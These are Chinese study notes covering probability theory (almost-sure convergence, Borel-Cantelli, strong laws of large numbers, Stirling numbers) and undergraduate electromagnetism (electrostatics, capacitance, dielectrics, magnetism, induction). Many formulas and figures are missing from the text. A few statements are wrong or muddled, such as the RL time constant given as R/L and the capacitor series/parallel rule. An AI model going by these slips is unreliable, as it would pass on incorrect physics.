记 \(B_n^2 = \sum_{k=1}^{n} \sigma_k^2\)。
Lindeberg 条件为：
几乎处处收敛¶
几乎处处收敛
- 处处收敛: 假设 \((\Omega, \mathcal{A}, P)\) 是一个概率空间，\(X, X_n, n \geqslant 1\) 是一列随机变量，如果对每个 \(\omega \in \Omega\),
那么称 \(X_n\) 处处收敛于 \(X\)。
- 几乎处处收敛: 假设 \((\Omega, \mathcal{A}, P)\) 是一个概率空间，\(X, X_n, n \geqslant 1\) 是一列随机变量，如果存在 \(\Omega_0 \subset \Omega\) 使得
(i) \(P(\Omega_0) = 0\)
(ii) 对每个 \(\omega \in \Omega \setminus \Omega_0\),
那么称 \(X_n\) 几乎处处收敛于 \(X\)，记做 \(X_n \to X, a.s.\)。
即除一个零概率事件外，\(X_n\) 处处收敛于 \(X\)。
几乎处处收敛的判别法则¶
\(X_n \to X, \ a.s.\)
当且仅当对任意 \(\epsilon > 0\),
或者说
等价地, 对任意 \(\epsilon > 0\),
由此, 也可看出几乎处处收敛比依概率收敛强。
这一部分的推导比较繁琐,这里就不敲上来了,直接附上我的手写版,勿怪

Borel-Cantelli 引理¶
- 假设 \(A_n, n \geqslant 1\) 是一列事件，如果
那么
证明：
- 假设 \(A_n, n \geqslant 1\) 是一列独立事件，如果
那么
证明：由于 \(A_n, n \geqslant 1\) 是一列独立事件，那么
首先做如下转化
Borel-Cantelli 引理又称为零一定律，即如果事件发生的概率之和有限，那么事件发生的次数是有限的(有无限次不发生)，如果事件发生的概率之和无限，那么事件发生的次数是无限的。
Borel大数定律¶
假设 \((\Omega, A, P)\) 是一个概率空间，\(\xi_k, k \geqslant 1\) 是一列独立同分布随机变量：
记 \(S_n = \sum_{k=1}^{n} \xi_k\)，那么 \(S_n/n \to p\)，a.s.
证明：对任意 \(\epsilon > 0\)
由 Borel-Cantelli 引理，只需证明
由 Markov 不等式，
容易计算得，
因此，
Kolmogorov 大数律¶
假设 \((\Omega, A, P)\) 是一个概率空间，\(\xi_k, k \geqslant 1\) 是一列独立同分布随机变量。如果 \(E\xi_k = \mu\)，那么
- Kolmogorov 强大数律推广了 Borel 强大数律
- Kolmogorov 强大数律推广了 Khinchine 大数律
概率相关的知识¶
约 443 个字 预计阅读时间 2 分钟
记录一些学习过程中发现的有趣的概率问题
Danger
相互独立，交事件可以拆开变成概率相乘； 且若AB独立，则A与B的补事件也独立
互不相交(互斥)，并事件可以拆开变成概率相加。
n 个球放入m个不同的盒子
| 球 | 盒 | 允许空 | 方案数 |
|---|---|---|---|
| 不同 | 不同 | 是 | \( m^n \) |
| 不同 | 不同 | 否 | \( m! \cdot S(n, m) \) |
| 不同 | 相同 | 是 | \(\sum_{k=0}^{m} S(n, k)\) |
| 不同 | 相同 | 否 | \( S(n, m) \) |
| 相同 | 不同 | 是 | \( \binom{n+m-1}{m-1} \) |
| 相同 | 不同 | 否 | \( \binom{n-1}{m-1} \) |
| 相同 | 相同 | 是 | \( dp(n, m) \) |
| 相同 | 相同 | 否 | \( dp(n-m, m) \) |
其中 \(S(n,m)\) 为第二类 Stirling 数（Stirling numbers of the second kind）是组合数学中的一个重要概念，用来描述如何将 \(n\) 个不同的元素划分为 \(m\) 个非空的无序子集。更具体地说，\( S(n, m) \) 表示的是有多少种方法可以把一个包含 \(n\) 个元素的集合划分成 \(m\) 个非空子集。
计算公式
第二类斯特林数 \( S(n, m) \) 的递推公式如下：
其中，边界条件是：
- \( S(0, 0) = 1 \)
-
对于 \( n > 0 \)， \( S(n, 0) = 0 \) 且 \( S(n, n) = 1 \)
-
\( m \cdot S(n-1, m) \)：将第 \(n\) 个元素放入现有的 \(m\) 个子集中的某一个。共有\(m \cdot S(n-1, m)\)种 。
- \( S(n-1, m-1) \)：将第 \(n\) 个元素作为一个新的子集。
Eg
例如，\( S(3, 2) = 3 \)，表示有 3 种方法可以将 3 个元素分成 2 个非空子集，分别是：
- {1, 2}, {3}
- {1, 3}, {2}
- {2, 3}, {1}
Stirling 公式¶
Ended: 概率论
普通物理学二 ↵
约 95 个字
授课教师：方明虎
一位科研和教学水平都很高的老师！讲课充满激情，可以在课堂上了解到所学知识与前沿科学，实际生活的联系，根本不会犯困，体验极佳
目录¶
电学部分¶
约 5941 个字 预计阅读时间 20 分钟
Electric Charge and Coulomb's Law(电荷和库仑定律)¶
A ring of charge¶
Table of contents
对于一个均匀带电的圆环，距离其中心 \(z\) 的带电量为 \(q_0\) 所受的沿 \(Z\) 方向的力 \(F_z\)

先计算电荷密度
Note
当 \(z\) 非常大,原式子就退化成了两个点电荷之间的相互作用
A disk of charge¶
如果是一个圆盘，\(F_z\) 可以用圆环来逼近

当 \(z\) 非常大,原式子就退化成了两个点电荷之间的相互作用(用Taylor展开分析)
Key-point
如果是一个无穷大的圆盘，那么\(R \to \infty\),此时 \(F_z = \dfrac{1}{4 \pi \epsilon_0} \dfrac{2q_0q}{R^2}\) 其电场为
A infinite stick of charge

由于对称性，在\(x\)方向上没有电场
Dipole(电偶极矩)¶
Definition
电偶极矩是描述带电粒子系统中电荷分布的物理量，通常用于量化两个相反电荷之间的分离程度和方向。在经典电磁学中，电偶极矩通常表示为一个矢量，其大小等于电荷量乘以电荷间的距离。 定义为：
其中：
- \( q \) 是两个相反电荷的电荷量，
- \( \mathbf{d} \) 是从负电荷指向正电荷的矢量，表示两个电荷之间的距离。
电偶极矩的方向从负电荷指向正电荷，因此在分子或原子系统中，它反映了电荷不对称分布的程度。对于分子，电偶极矩的大小和方向对分子的化学性质和反应性有重要影响。
电偶极矩的单位通常是德拜（Debye，符号为 D），1 德拜大约等于 \( 3.33564 \times 10^{-30} \) 库仑·米。
根据电偶极矩可以将分子间作用力分为几种类型

- 离子-偶极相互作用（Ion-Dipole Interaction）
离子-偶极相互作用发生在带电的离子和极性分子之间。当离子（如 \( \text{Na}^+ \) 或 \( \text{Cl}^- \)）靠近一个有电偶极矩的分子（如水分子，H\(_2\)O）时，离子会与极性分子的部分正电荷或负电荷产生吸引力。
Eg
在盐溶解于水的过程中，水分子的极性部分（氧的负电部分或氢的正电部分）与钠离子或氯离子之间产生的吸引力是离子-偶极相互作用。这种相互作用有助于溶解过程。
- 偶极-偶极相互作用（Dipole-Dipole Interaction）
偶极-偶极相互作用发生在两个极性分子之间，这些分子都有永久的偶极矩。当一个分子的正电部分接近另一个分子的负电部分时，它们之间会产生吸引力。
Eg
像氯化氢 (HCl) 这样的极性分子之间的相互作用就属于偶极-偶极相互作用。HCl 分子的氯原子带负电，而氢原子带正电，这两种相反的电荷相互吸引，从而形成偶极-偶极相互作用。
- 伦敦色散力（London Dispersion Force）
伦敦色散力，又称为**瞬时偶极-诱导偶极力**，是一种在所有原子和分子之间都存在的弱相互作用力，特别是对于非极性分子。它是由瞬时的电子运动引起的，即在某个瞬间，分子或原子周围的电子云分布不均匀，形成瞬时偶极，这个瞬时偶极会诱导临近分子或原子产生相似的瞬时偶极，从而产生吸引力。
Eg
即使是像氮气 (N\(_2\)) 和氧气 (O\(_2\)) 这样的非极性分子，也存在伦敦色散力。这种相互作用虽然很弱，但对大多数非极性物质的凝聚力和熔沸点有重要影响。
电偶极矩产生的电场¶

Note
如果考虑 \((0,y)\) 上的电场，则其在 \(x\) 方向上没有分量
Note
Eg
北高峰上的天线和紫金港的分子
\(E\) 和 \(r^3\) 成反比
Key-point
电偶极矩的电场与距离\(r^3\)成反比，而点电荷的电场与距离\(r^2\)成反比，无穷长导线的电场与距离\(r\)成反比
电偶极矩在电场中¶

Key-point
电偶极矩在电场中受到的力矩会驱使电偶极矩旋转上与电场方向对齐
对于电偶极矩在电场中的势能
第一个式子的负号是因为力矩与角度的变化方向相反
Gauss's Law(高斯定理)¶
电场的高斯定理¶
Definition
The net electric flux through any closed surface is proportional to the charge enclosed by that surface.
E不一定只由q产生，但是q只用计算被包裹住的电荷
在数学分析二中，我们也知道Gauss公式，即：
Note
设 \(\Omega\) 是分段光滑的封闭曲面构成的二维单连通区域，函数 \(P(x,y,z),Q(x,y,z),R(x,y,z)\) 在 $\Omega $ 上具有连续偏导数, 则
将两者结合起来，我们就可以得到高斯定理的微分形式
而
所以
Key-point
运用高斯定理可以通过电荷求电场，也可以通过电场求电荷，关键在于高斯面的选取，一般而言，选取球面，圆柱面，或者长方体表面更加方便计算，高斯定理只是再计算一些具有特殊对称性物体时，非常的方便，对于一般的物体，还是要用库仑定律来计算
Note
我们知道导体内部的电场是0，由高斯定理，导体的内部没有电荷，所以其电荷分布在表面。
静电场的环路定律¶
The circuit Law of the electrostatic field
then
这个是由Stokes定理推出的，即：
Note
设 \(\Omega\) 是光滑的曲面，其边界 \(\partial \Omega\) 是分段光滑的闭曲线函数 \(P(x,y,z),Q(x,y,z),R(x,y,z)\) 在 $\Omega，\partial \Omega $ 上具有连续偏导数, 则
Electric Potential(电势)¶
电势能与电势¶
电势是电场中某一点的物理量，定义为单位正电荷在该点所具有的电势能。具体来说，电势 \( V \) 可以表示为：
其中 \( U \) 是电势能，\( q \) 是电荷量。电势是一个标量，通常相对于无限远处的电势为零来计算。
Key-point
计算某点a的电势的可以使用从该点到无穷远的电场的积分：
因为\(W_{a}^{\infty}=-U_{a}^{\infty}=U_a-U_{\infty}\),而 \(U_{\infty}=0\),\(W=\int q \boldsymbol{E} \cdot d\boldsymbol{l}\),\(V = \frac{U}{q}\)
根据这个式子可以得到 点电荷产生的电势
根据点电荷产生的电势，可以得到电偶极矩产生的电势

当 \(r >> a\), \(r_1 \approx r_2 \approx r\)，所以\(r_1-r_2 \approx 2a\cos \theta,r_1r_2 \approx r^2,p=2aq\)
\(\theta = \frac{\pi}{2},V=0;\theta=0,V_{max}>0;\theta=\pi,V_{min}<0\)
也可以推导电四偶极矩的电势

其中 \(Q = 2qd^2\) 是电四偶极矩
Key-point
对于点电荷， \(V \propto \frac{1}{r}\), 对于电偶极矩，\(V \propto \frac{1}{r^2}\), 对于电四偶极矩，\(V \propto \frac{1}{r^3}\)
通过测量电势判断电荷的分布
$$ V\left(r\right)= \frac{1}{4 \pi \epsilon_0} \left( \frac{A_1}{r} + \frac{A_2}{r^2} + \frac{A_3}{r^3} + \dots \right) \ = \frac{1}{4 \pi \epsilon_0} \sum_i \frac{A_i}{r^i} $$

球壳的电势¶

利用Guass定理，我们可以得到球壳的电场分布：
在球壳内部，电场为0，在球壳外部，电场为点电荷产生的电场
则对于距离球心距离为 \(r\) 的点，其电势有以下两种情况
- \(r < R\)，则 \(V = \int_{r}^{R} E \cdot dr + \int_{R}^{+\infty} E \cdot dr = 0 + \frac{q}{4 \pi \epsilon_0 R}\)
- \(r > R\)，则 \(V = \int_{r}^{+\infty}= \frac{q}{4 \pi \epsilon_0 r}\)
对于该球壳的电势能，可以将其分隔为很多个小电荷，然后对每个小电荷的电势能求和，由于\(ij\)对称性，要乘以\(\frac{1}{2}\)
解释
固定 \(i\) ,先对 \(j\) 求和，相当于整个球壳在 \(i\) 产生的电势 \(V_i\) ，再对 \(i\) 求和，此时由于球壳内和球壳上的电势都是 \(\dfrac{q}{4 \pi \epsilon_0 R}\) ,所以最后只需要对于球壳上的电荷求和即可，通过结果我们可以发现 电势能蕴藏在电场中
估算电子的半径
电子的电势能与其原子能相等，这样处于平衡状态
圆环和圆盘的电势¶


通过电势求电场¶
由于我们有
故
即求某一方向的电场，只需要求该方向的电势的偏导数即可
射影法求电场
通过电场线的类似性构造新的电荷来求电场；例如感应在无穷长的导体板上的电场，可以类似于在对称的位置上放上一个点电荷

Capacitance(电容)¶
Definition
电容器的电容定义为
其中 \(q\) 是电容器上的电荷，\(V\) 是电容器上的电势差
平行板电容器¶

故平行板电容器的电容与板的面积成正比，与板的距离成反比，即与电容器的几何参数有关
圆柱电容器¶

首先用高斯定律计算电场
那么对于单位长度的电容，有
球形电容器¶

Property
特别的，当 \(b \to \infty\) 时，\(C = 4 \pi \varepsilon_0 a\),这说明电容并不一定需要两个，一个导体也可以作为电容
电容器的并联和串联¶
并联(电压一致)¶

串联(电荷一致)¶

Key-point
串联电容器的电容是并联电容器的倒数的和，而并联电容器的电容是串联电容器的和，这恰好跟电阻的串联和并联相反
电容器的能量¶
考虑一个平行板电容器，其电容为 \(C\)，电压为 \(V\)，则其具有的能量相当于从负极板不断将电荷移动到正极板，这样的过程中克服电场力所做的功
它的能量储存在它的电场中；由于\(V=Ed\);
这样就得到单位体积的电场能量密度
Key-point
Warning
虽然公式是由平行板电容器推导出来的，但是这个公式以及能量密度公式对于任何电容器都是成立的
电介质，电场中的绝缘体¶
影响电容还有另外一个十分重要的因素，介电常数\(\kappa_e\),当电容器中插入电介质时，电容器的电容会增加，具体为
宏观解释¶
- 在平行板电容器中插入一根导体，其表面会产生感应电荷，相当于两个电容器串联

电容变大了，但是不能插入的导体不能太厚，否则间隙太小，很容易就达到空气的击穿电压，所以即使导体能很很好的增加电容，我们也不使用，而是使用其他的电介质
- 在平行板电容器中插入一根电介质，使其充满间隙；其表面会产生束缚电荷，在介质之间会产生感应电场，抵消掉原电场的一部分（但是不为0）；两极板间的电场减小，电压减小，电荷量不变，电容增大；此时我们称该介质被极化(polarization)了

Info
其实，在英文的教材中，不管是感应电荷还是束缚电荷，都使用 induced charge 来表示，在中文中，我们为了区分导体产生的与非导体产生的，所以使用了不同的词汇
极化微观解释¶
Definiton
- Non-polar dielectrics:无极分子电介质，指的是分子中的正负电荷中心重合，如氧气，氮气， 二氧化碳等
- Polar dielectrics:有极分子电介质，指的是分子中的正负电荷中心不重合，如水
对于 Non-polar dielectrics，当电场作用于其上时，它会将重合的正负电荷中心分开，形成电偶极矩，这样就会产生一个与电场方向相反的电场，从而减小了电场强度(内部的电场矢量求和之后，相当于在表面分别产生正负电荷)

Note
其本质是电子云位移的结果
对于 Polar dielectrics，当电场作用于其上时，它会给原本杂乱无章的电偶极矩一个力矩，这个力矩会使得电偶极矩偏向电场方向，这样的极化叫做 取向极化

Note
当取向极化发生时，电子云的位移也会发生，但是彼此差了两个量级，一般忽略了电子云的位移；但是当外部电场变化频率很大时，电偶极矩转来转去是跟不上的，但是电子云的左右移动是可以的，这时候电子云的位移是主要影响的因素
极化强度矢量(Polarization)¶
Definition
极化强度矢量 \(\boldsymbol{P}\) 定义为单位体积内的电偶极矩之和
其中 \(\boldsymbol{p}\) 是单位体积内的电偶极矩;
\(P\) 可能是均匀的，也可能是不均匀的
对于任意的电介质，在其表面取一个小斜圆筒，母线与电场方向一致，长度为一个电偶长度；底面与该表面的法向量垂直，这样斜斜圆筒内只可能有正电荷；

设 \(n\) 为单位体积内的电偶极矩数目(分子数目) 则
所以
Key-point
极化强度矢量与闭合曲面的内积积分等于该曲面表面的束缚电荷，等于该曲面内部电荷的相反数(外面有多少正的，里面就有多少负的)
同时
面电荷密度等于极化强度矢量在法向上的分量；由夹角来控制正负

电介质的极化规律¶
Definition
在各向异性的介质中，极化强度矢量是电场的函数，在各项同性的材料中\(\boldsymbol{P}=\varepsilon_0 \chi_e E\)
其中 \(\chi_e\) 是电介质的电极化率，与介电常数的关系为 \(\kappa_e = 1 + \chi_e\)
Guass定律的推广¶
考虑一个正电荷 \(q_0\) 放在电介质中，其周围会产生极化

由 高斯定理，我们可以得到
其中 \(\boldsymbol{D} = \varepsilon_0 \boldsymbol{E} + \boldsymbol{P}\) 称为电位移矢量，也叫做电感应矢量
这说明电位移矢量与闭合曲面内积面积分等于该曲面内的 自由电荷 之和
Key-point
Example
在上面的例子中
Note
\(E\)是真实电场，\(E_0\)真空中的电场
恒定电流¶
电流与电流密度¶
电流
电流定义为单位时间内通过某一横截面的电荷量
若单位体积内电荷数目为 \(n\)，截面表面积为 \(s\) 电荷为 \(e\)，速度为 \(v\)，则电流为
电流密度
电流密度定义为单位时间内通过单位面积的电荷量
其中 \(\boldsymbol{J}\) 是电流密度，\(\boldsymbol{I}\) 是电流，\(\boldsymbol{A}\) 是横截面积
有：
在微小变化中，有
电阻与电导¶
电阻的定义式
电阻是决定式
其中 \(\rho\) 是电阻率，\(\sigma\) 是电导率
对于不规则物体，采用积分计算电阻
计算电阻

在地质勘探中，时常利用这种方法来勘探地底的资源，因为各种材料的电导率不同
欧姆定律的微分形式
可以推出
电功率与焦耳定律¶
电功率
电功率定义为单位时间内电流做的功
其中 \(P\) 是电功率，\(W\) 是电功，\(V\) 是电压，\(I\) 是电流
焦耳定律
对于 纯电阻电路 ，电功率可以表示为\(P = I^2 R = \dfrac{V^2}{R}\)
欧姆定律的微观解释¶

原本在导体中做热运动的电子，在施加了外部电场后，会产生漂移速度；
其中 \(\lambda\) 是电子的平均自由程，\(v_d\) 是电子的热运动速度，与\(\sqrt{T}\)成正比
这种算法给出了我们经典物理学中关于电阻的解释，与\(T\)是开方函数的关系，但是这只在定性方面的正确的，确实随着温度的升高，电阻会增大；但是更加现实具体的推导需要量子力学的帮助，才能给出很好的解释

磁学部分¶
约 2862 个字 预计阅读时间 10 分钟
Table of contents
Ampere's Law¶
对于电学，我们有库仑定律
Ampere's Law
其中，\(\mu_0\) 是真空磁导率，\(i_1, i_2\) 是电流，\(ds_1, ds_2\) 是电流元长度，\(r_{12}\) 是电流元之间的距离。
Newton's Third Law
Case 1: 两电流元平行

Case 2: 两电流元垂直
Why?
这只是一小段的电流元，当考虑一整段电流时，得到的结果并不违背牛顿第三定律，当年安培就是利用相互垂直时的这一特性，巧妙的设计了实验来证明了安培定律。
Biot-Savart Law¶

继续根据电场中的思想，引入试探电流源并定义 磁感应强度
如果固定一个电流元，积分另一电流元，我们有
定义：
因此：
磁感应强度
单位为 \(T\)，特斯拉。
为什么不是磁场强度？
如果要完全跟电场对应，应该使用磁场强度，但是却叫磁感应强度，这是因为大家都这么叫
长直导线周围的磁场场¶

如果是无限长，则
也就是说，无限长直导线周围的磁感应强度与距离成反比。
Note
回忆电场中的无限长直导线，其电场强度与距离成反比。
圆电流轴线上的磁场¶


其中由于对称性在与圆环平行的方向上，磁感应强度为零。
Note
当 \(r_0 \to 0\) 时，\(B \to \frac{\mu_0 i}{2R}\)
当 \(r_0 \to \infty\) 时，\(B \to \frac{\mu_0 i}{2r_0^3}R^2\) 与 \(r_0^3\) 成反比。在磁场中，电偶极矩在无穷远处产生的电场也与 \(r^3\) 成反比。
定义磁偶极矩
则
如果有N匝线圈，则
或者令 \(m' = N i \pi R^2\),
电流平面产生的磁场¶

由于对称性，在只会在\(x\)方向上产生磁场
Note
当 $a \to 0,\alpha \to \tan\alpha = \dfrac{a}{2R} $ 时，\(B_x \to \dfrac{\mu_0 i}{2\pi R}\)
当 \(a \to \infty, \alpha \to \dfrac{\pi}{2}\) 时, \(B_x \to \dfrac{\mu_0 i}{2 a}=\dfrac{1}{2}\mu_0 n i_0\),n为单位长度电流数目i_0为单位电流
单层通电螺旋管产生的磁场¶
在通电螺旋管内部，会产生匀强磁场

设\(x\)为点P据中心轴线的水平距离；螺线管长度为\(L\),单位长度匝数为\(n\)，每匝电流为\(i\)。
根据磁偶极矩产生的磁场公式
Note
\(L \to \infty\) 时，\(B = \mu_0 n i\)
多层通电螺线管产生的磁场¶

从下往上，逐层积分
\(ni\) 为每一层单位长度的电流，
其中\(N'\)为每一层的匝数，\(j\)电流密度，\(R_1,R_2\)为内外半径，\(N\)为总匝数。
详细过程
毁了啊，secx的原函数都记不住

磁场的Gauss定律和回路定律¶
磁场中的Guass定律
Proof

考虑在轴线处的\(ids\)产生的磁场，对于红色的闭合曲面，可以考虑一个穿过去的小圆环；
磁场中的回路定律
以右手定则判断正负，即按照积分方向使用右手定则，大拇指指向的方向就是电流的正方向,不需要对穿过去的电流进行投影，有多少穿过就直接算多少
有了回路定律，求磁场就方便得多了
带电无穷长圆柱周围的磁场¶

因为磁场方向与积分方向平行；半径如果是大于圆柱的半径，则
如果积分区域在里面，则
Key-point
这说明磁场在R处达到最大

无穷大的板¶

因为水平方向上由于对称性，磁场为零；
在电路分布的两侧，磁场方向相反，大小相等；
设正方形的边长为\(w\)，则
通电无穷长螺线管?为什么不是两块板

如果把螺线管中间切一刀，情况就与两块板很相似了，对于两侧，由于方向不同可以消去； 在中间，由于对称性，磁场为一块板的两倍，所以磁场为
这正是我们之前推导的结果
螺绕环¶

电流在磁场中受到的力与力矩¶
用右手定则来判断方向
Warning
左手定则，out！全部使用右手定则，如果是电子运动，也可以当作微小电流来处理，安培力和洛伦兹力本质上是一样的
Example

平的部分很简单，弯弯的部分使用微分，发现水平部分的力由于对称性为零，只有竖直部分的力
Note
Info
安培的定义；两个相距\(1m\)的直导线，通过的电流，产生的力为\(2 \times 10^{-7} N\)；这样大小的电流称为\(1A\)
矩形线圈¶
Definition
磁偶极矩的方向为右手定则的方向
对于一个矩形线圈，如果它能绕着一个轴旋转，如图

任意形状线圈¶
现在将结论推广到任意形状的线圈，如图，磁偶极矩与磁场垂直

将线圈分割为一个个小矩形，每个小矩形内部电流依次相消，最后合电流为原电流
Key-point
这种力矩使得磁偶极矩有转到磁场方向的趋势
点电荷在磁场中运动¶
Property
- 洛伦兹力不做功
- 洛伦兹力只改变速度方向，不改变速度大小
- 洛伦兹力方向用右手定则判断
- 对于速度为\(v\)的点电荷，洛伦兹力为\(q \boldsymbol{v_{\perp}}\boldsymbol{B}\)
- 如果在匀强磁场中，做圆周运动，则\(q \boldsymbol{v_{\perp}}\boldsymbol{B} = \dfrac{mv^2}{r} \rightarrow r = \dfrac{mv}{qB}\)
- 速度选择器:\(\boldsymbol{E} \perp \boldsymbol{B}\)，则\(qE = qvB \rightarrow v = \dfrac{E}{B}\),速度选择器接着一个磁场，根据半径不同，可以做到分离同位素
- 回旋加速器: 电场加速，磁场偏转，交流电的周期与粒子做圆周运动的周期相同；\(v=\dfrac{qBr}{m}\)，\(T=\dfrac{2\pi m}{qB}\),\(E_k = \dfrac{1}{2}mv^2 = \dfrac{q^2 B^2 r^2}{2m}\)
Warning
当回旋加速器中的粒子速度接近光速时，粒子质量会发生变化，导致粒子做圆周运动的周期发生变化，从而导致固定的交流电频率无法一直加速；粒子无法被加速到更高的能量。可以通过修改磁场大小：
修改B；
- 同步加速器
- 霍尔效应：带电粒子在磁场中运动，在垂直于磁场方向的导体中，由于洛伦兹力，电荷会向一侧偏转，从而在导体两侧形成电势差，平衡时，洛伦兹力等于电场力，\(qE = qvB \rightarrow E = vB\)，\(U = E \cdot d = vBd\)，\(I = j \cdot d \cdot w = nqv \cdot d \cdot w\)，\(j = nqv\)，\(U = \dfrac{I B d}{nqwd}\)，\(R_H = \dfrac{U}{I} = \dfrac{B}{nqw}\)，\(R_H\)称为霍尔系数，\(n\)为载流子浓度，\(q\)为载流子电量，\(w\)为导体宽度，\(d\)为导体厚度
电动力学¶
约 3331 个字 预计阅读时间 11 分钟
法拉第电磁感应定律¶
Key-point
楞次定律已经蕴含在"-"号中,楞次定律是能量守恒定律在电磁感应中的体现
动生电动势¶
电荷受到的非静电力
实际上这个是洛伦兹力的分量
Proof

动生电动势
发电机

感生电动势¶
涡旋电流
Proof
做功相等
这提供了一种求出感生电场的方法
Example
磁场静止，动生电动势\(\varepsilon=BDv\)
磁场运动，感生电动势
变化的磁场
推广电场环路定律
运用stokes公式
Danger
在涡旋电场中，环路积分并不是0，所以在涡旋电场中不能使用电势的概念
电感¶
互感¶

\(i_1\)产生的磁场会使得\(s_2\)感应出\(\varepsilon_2\)
\(i_2\)产生的磁场会使得\(s_1\)感应出\(\varepsilon_1\)
由\(s_1\)在\(s_2\)上导致的磁通匝链数
由\(s_2\)在\(s_1\)上导致的磁通匝链数
互感系数
如上的\(M_{12}\)和\(M_{21}\)就是被称为互感系数，单位为亨利(Hery)
常见的有\(mH,\mu H\)等
自感¶

类似的有
其中\(L\)被称为自感系数
通电螺线管的自感系数¶

\(n\)为单位长度的匝数
磁场强度
磁通匝链数
自感系数
单位体积的自感系数
单位长度的自感系数
长方形截面螺绕环¶

同轴电缆¶

线圈拼接¶

其互感系数为
自感系数为
顺接
反接
材料的磁性质¶
在电容器中间插入电介质，可以让电容增大
在通电螺线管中插入铁磁材料，同样可以为自感系数增大
其中\(\kappa_m\)被称为磁导率
对于顺磁性材料，其磁导率约为1；对于铁磁性材料，其磁导率远大于1(\(10^3 \sim 10^4\))
价电子的磁偶极矩¶

角动量为
所以
自旋的磁偶极矩¶
自旋角动量¶
| Particle | Spin | Type |
|---|---|---|
| Electron | \( s = \frac{1}{2} \hbar \) | Fermi |
| Proton | \( s = \frac{1}{2} \hbar \) | Fermi |
| Neutron | \( s = \frac{1}{2} \hbar \) | Fermi |
| Deuteron | \( s = \hbar \) | Bose |
| Alpha Particle | \( s = 0 \) | Bose |
Note
\(\hbar=\dfrac{h}{2\pi}\) 为约化普朗克常数
自旋磁矩¶
Key-point
总磁矩
磁化强度\(M\)¶
在电容部分，我们引入了极化强度\(P\)，在磁场部分，我们也类似的引入磁化强度\(M\)用于刻画磁性材料的磁性质

向通电螺线管中插入铁磁材料，原本杂乱无章的分子磁矩会受到磁场的作用，使得磁矩方向趋于一致，朝向磁场方向，在宏观上相当于在材料外围产生了一个电流

此时磁场被增强
磁化强度矢量
我们定义磁化强度矢量\(\boldsymbol{M}\)为单位体积内磁矩的矢量和，即
我们也希望磁化强度矢量有类似于极化强度矢量的性质，即

红色的是电流，电流面密度为
只用除以\(\Delta z\)是因为我们只考虑到了表面的电流，即其向\(y\)的方向是没有的
磁场强度¶

由环路定律
定义磁场强度为
Note
磁化强度和磁场强度的关系为
那么
则 \(\kappa_m=1+\chi_m\)
Example
在上面的例子中，我们可以得到

Idea
以这样的角度来看，磁场强度\(H\)和电场强度\(E\)，磁感应强度\(B\)和电感应强度\(D\)的关系又是可以对应的
磁化率与磁导率¶
| 顺磁 | 抗磁 | 铁磁 | |
|---|---|---|---|
| \(\chi_m\) | 大于0但是小(\(10^{-6}\)) | 小于0但绝对值远小于1 | 与磁场强度有关 |
| \(\kappa_m\) | 大于1但是接近1 | 小于1但是接近1 | 与磁场强度有关(\(10^2 \sim 10^3\)) |
微观解释¶
顺磁材料(paramegnetic material)¶
原本杂乱无章的磁矩，在外磁场下，材料内部的磁矩会朝向磁场方向,但是与温度有关

居里定律
其中\(C\)为居里常数，\(T\)为温度
顺磁性的磁化率很小，磁化强度也很小，对磁场的影响很小
抗磁材料(diamagnetic material)¶
抗磁材料在没有外磁场的情况下，内部总磁矩为0;即：

原本电子磁矩相消，加上外磁场后，电受到洛伦兹力，不管它是被加速还是被减速，都会产生一个与外磁场方向相反的磁矩(抗磁);
增加的力与库仑力相比要小的多，产生的磁场也比顺磁材料感应的磁场小得多，对轨道半径几乎没有影响
其磁矩的变化为
铁磁材料(ferromagnetic material)¶
初始的\(\mu \neq 0\),且近邻原子磁矩间存在强相互作用
磁化强度矢量与温度的关系


居里-维斯定理
磁畴¶
即使在没有外加磁场B的情况下，磁性材料中的磁偶极子（磁性小区域）也会倾向于在小范围内强烈地排列成特定的方向，形成所谓的“磁畴”。当施加外部磁场时，这些磁畴会重新排列，使得它们的方向一致，从而产生大的净磁化强度。

-
软铁磁体：指的是容易被磁化和退磁的磁性材料。它们在外部磁场作用下磁畴会有序排列，但磁场移除后磁畴会很快随机化。
-
硬铁磁体：指的是不易被退磁的磁性材料，例如某些特殊合金。它们在外部磁场移除后仍能保持磁畴的有序排列，因此具有较强的磁性。
-
永久磁体：通常指永久保持磁性的材料，例如稀土磁铁。它们的磁畴在没有外力作用下不会随机化，但可以通过施加外力（如磁场或震动）来改变磁畴的方向。
-
居里点：是磁性材料的一个物理特性，指的是材料由铁磁性变为顺磁性的转变温度。对于铁来说，这个温度是770摄氏度。
RL-回路¶
RC回路


开关打到a¶
When \( t = 0, i = 0 \), thus \( C' = -\frac{\varepsilon}{R} \).
所以
时间常数\(\frac{R}{L}\)
